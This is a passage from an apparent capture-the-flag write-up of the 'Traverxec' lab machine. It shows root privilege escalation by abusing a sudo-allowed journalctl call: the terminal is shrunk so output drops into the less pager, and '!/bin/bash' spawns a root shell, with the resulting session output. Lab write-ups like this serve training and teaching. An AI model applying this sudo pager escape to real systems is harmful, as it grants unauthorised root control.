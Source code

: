 We can start by enumerating the home folder of the current user:
```shell
david@traverxec:~$ ls -lahR
<...snip...>
david@traverxec:~$ cat bin/server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

There's a script which runs sudo on the program journalctl. 

## Exploiting journalctl

If we look up journalctrl on gtfobins (read gtfobins), and there is a sudo option. It’s quite short and simply saying:

    sudo journalctl !/bin/sh

The journalctrl will output to stdout if it the amount of vertical lines can fit onto the current page, otherwise it will go into `less` if it can’t. We can try this on our localhost:
```
sudo journalctl
```

You will see that we are now in `less`:

```bash
sep 09 20:49:55 parrot kernel: MTRR default type: uncachable
sep 09 20:49:55 parrot kernel: MTRR fixed ranges enabled:
sep 09 20:49:55 parrot kernel:   00000-9FFFF write-back
lines 1-39
```

In the journalctl command we can see the parameter `-n` which takes `5` lines as the argument this means that only five lines will be sent to the output, so we need to shrink the terminal to something smaller than 5 lines, and we’ll get sent into less as root. Lets try this on our host first, to see how it works:

```shell
sudo journalctl -n 5
```
Let's not forget to resize the terminal (vertically).

Knowing this, we can try to attempt to escalate privileges with command shown in GTFOBins:
```shell
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sun 2021-10-17 18:09:21 EDT, end at Sun 2021-10-17 19:25:33 EDT. --
Oct 17 18:34:04 traverxec sudo[3841]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty= ruser=www-data rhost=  user=www-data
Oct 17 18:34:06 traverxec sudo[3841]: pam_unix(sudo:auth): conversation failed
Oct 17 18:34:06 traverxec sudo[3841]: pam_unix(sudo:auth): auth could not identify password for [www-data]
!/bin/bash
root@traverxec:/home/david# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david# cd /root
root@traverxec:~# ls
nostromo_1.9.6-1.deb  root.txt
root@traverxec:~# cut -c-5 root.txt
9aa36
```